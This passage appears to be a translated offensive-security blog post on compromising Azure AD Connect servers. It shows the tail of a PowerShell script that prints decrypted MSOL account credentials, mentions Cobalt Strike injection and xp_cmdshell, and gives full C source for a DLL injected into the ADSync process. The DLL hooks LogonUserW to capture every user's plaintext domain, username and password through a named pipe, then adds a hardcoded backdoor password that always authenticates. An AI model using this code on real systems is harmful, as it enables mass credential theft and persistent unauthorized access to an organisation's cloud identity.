Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

执行后，MSOL 帐户的解密密码将被显示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182652-292e01c6-820f-1.png)

那么完成这种凭证泄露的要求是什么？那么我们需要访问 LocalDB（如果配置为使用此数据库），默认情况下它保存以下安全配置：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182659-2dc6d384-820f-1.png)

这意味着，如果您能够破坏包含 Azure AD Connect 服务的服务器，并获得对 ADSyncAdmins 或本地管理员组的访问权限，您就能够检索能够执行 DCSync 的帐户的凭据：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182708-32dbc064-820f-1.png)

2020 年 12 月 4 日更新- 由于 Azure AD Sync 现在存储密钥的方式发生变化，现在需要访问服务帐户（默认为 ADSync）或服务帐户的凭据管理器才能解密配置。使用 Cobalt Strike 等工具解决此问题的一种方法是简单地注入到 ADSync 进程下运行的进程中，然后继续执行上述 POC。或者，我们可以利用 LocalDB 实例实际上以“ADSync”用户身份运行的事实，这意味着xp\_cmdshell我们只需要一点简单的魔法即可恢复我们的解密方法。  
通过认证  
由于密码哈希在组织外部同步的想法对于某些人来说是不可接受的，因此 Azure AD 还支持直通身份验证 (PTA)。此选项允许 Azure AD 通过 Azure ServiceBus 将身份验证请求转发到 Azure AD Connect 服务，实质上将责任转移给 Active Directory。  
为了进一步探讨这一点，让我们重新配置我们的实验室以使用传递身份验证：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182723-3bb72d36-820f-1.png)

一旦此更改推送到 Azure，我们所拥有的配置将允许通过 Azure AD 进行身份验证的用户根据内部域控制器验证其凭据。对于希望允许 SSO 但又不想将整个 AD 数据库上传到云中的客户来说，这是一个很好的折衷方案。  
然而，PTA 有一些有趣的地方，那就是身份验证凭据如何发送到连接器进行验证。让我们看看幕后发生了什么。  
我们首先看到的是一些处理凭证验证的方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182731-408bc646-820f-1.png)

当我们开始进一步挖掘时，我们发现这些方法实际上LogonUserW通过 pinvoke 包装了 Win32 API：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182738-44ad2dfa-820f-1.png)

如果我们附加一个调试器，在此方法上添加一个断点，并尝试向 Azure AD 进行身份验证，我们将看到以下内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182744-4876471e-820f-1.png)

这意味着，当用户通过配置了 PTA 的 Azure AD 输入密码时，他们的凭据将未经哈希处理传递到连接器，然后根据 Active Directory 对其进行验证。那么，如果我们破坏负责 Azure AD Connect 的服务器怎么办？好吧，这为我们提供了一个很好的位置，可以在每次有人尝试通过 Azure AD 进行身份验证时开始窃取明文 AD 凭据。  
那么，我们如何在交互过程中从连接器中获取数据呢？  
挂钩 Azure AD Connect  
正如我们在上面看到的，虽然大部分逻辑发生在 .NET 中，但用于验证从 Azure AD 传递的凭据的实际身份验证调用是使用非托管 Win32 API 进行的LogonUserW。这为我们提供了一个很好的地方来注入一些代码并将调用重定向到我们控制的函数中。  
为此，我们需要使用 来SeDebugPrivilege获取服务进程的句柄（因为它在 下运行NT SERVICE\\ADSync）。通常SeDebugPrivilege仅适用于本地管理员，这意味着您需要获得服务器的本地管理员访问权限才能修改正在运行的进程。  
在添加钩子之前，我们需要了解一下如何LogonUserW工作，以确保在执行代码后可以将调用恢复到稳定状态。在 IDA 中查看advapi32.dll，我们发现它LogonUser实际上只是一个包装器LogonUserExExW：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182758-50e61942-820f-1.png)

理想情况下，我们不希望通过尝试将执行返回到此函数来支持 Windows 版本之间的差异，因此回到连接器对 API 调用的使用，我们可以看到它真正关心的是身份验证是否通过或失败。这使我们能够利用任何其他实现相同验证的 API（但需要注意的是，该调用不会同时调用LogonUserW）。符合这一要求的一个 API 函数是LogonUserExW.  
这意味着我们可以这样做：

1.  将 DLL 注入 Azure AD 同步进程。
2.  从注入的 DLL 中，修补 LogonUserW 函数以跳转到我们的挂钩。
3.  当我们的钩子被调用时，解析并存储凭证。
4.  将身份验证请求转发到 LogonUserExW。
5.  返回结果。  
    我不会详细介绍 DLL 注入，因为其他博客文章对此进行了广泛介绍，但是我们将注入的 DLL 如下所示：

```plain
#include <windows.h>
#include <stdio.h>

// Simple ASM trampoline
// mov r11, 0x4142434445464748
// jmp r11
unsigned char trampoline[] = { 0x49, 0xbb, 0x48, 0x47, 0x46, 0x45, 0x44, 0x43, 0x42, 0x41, 0x41, 0xff, 0xe3 };

BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken);

HANDLE pipeHandle = INVALID_HANDLE_VALUE;

void Start(void) {
    DWORD oldProtect;

    // Connect to our pipe which will be used to pass credentials out of the connector
    while (pipeHandle == INVALID_HANDLE_VALUE) {
        pipeHandle = CreateFileA("\\\\.\\pipe\\azureadpipe", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
        Sleep(500);
    }

    void *LogonUserWAddr = GetProcAddress(LoadLibraryA("advapi32.dll"), "LogonUserW");
    if (LogonUserWAddr == NULL) {
        // Should never happen, but just incase
        return;
    }

    // Update page protection so we can inject our trampoline
    VirtualProtect(LogonUserWAddr, 0x1000, PAGE_EXECUTE_READWRITE, &oldProtect);

    // Add our JMP addr for our hook
    *(void **)(trampoline + 2) = &LogonUserWHook;

    // Copy over our trampoline
    memcpy(LogonUserWAddr, trampoline, sizeof(trampoline));

    // Restore previous page protection so Dom doesn't shout
    VirtualProtect(LogonUserWAddr, 0x1000, oldProtect, &oldProtect);
}

// The hook we trampoline into from the beginning of LogonUserW
// Will invoke LogonUserExW when complete, or return a status ourselves
BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) {
    PSID logonSID;
    void *profileBuffer = (void *)0;
    DWORD profileLength;
    QUOTA_LIMITS quota;
    bool ret;
    WCHAR pipeBuffer[1024];
    DWORD bytesWritten;

    swprintf_s(pipeBuffer, sizeof(pipeBuffer) / 2, L"%s\\%s - %s", domain, username, password);
    WriteFile(pipeHandle, pipeBuffer, sizeof(pipeBuffer), &bytesWritten, NULL);

    // Forward request to LogonUserExW and return result
    ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota);
    return ret;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Start();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

执行后，我们可以看到每次用户通过 Azure AD 进行身份验证时都会收集凭据：

### 登录用户

好的，我们已经了解了如何检索凭据，但是如果我们确实想要访问 Azure AD 支持的服务怎么办？那么在这个阶段我们控制LogonUserW，更重要的是，我们控制它的响应，那么我们插入一个后门来为我们提供访问权限怎么样？  
在我们的 DLL 代码中，我们添加一个对硬编码密码的简单检查：

```plain
BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) {
    PSID logonSID;
    void *profileBuffer = (void *)0;
    DWORD profileLength;
    QUOTA_LIMITS quota;
    bool ret;
    WCHAR pipeBuffer[1024];
    DWORD bytesWritten;

    swprintf_s(pipeBuffer, sizeof(pipeBuffer) / 2, L"%s\\%s - %s", domain, username, password);
    WriteFile(pipeHandle, pipeBuffer, sizeof(pipeBuffer), &bytesWritten, NULL);

    // Backdoor password
    if (wcscmp(password, L"ComplexBackdoorPassword") == 0) {
        // If password matches, grant access
        return true;
    }

    // Forward request to LogonUserExW and return result
    ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota);
    return ret;
}
```
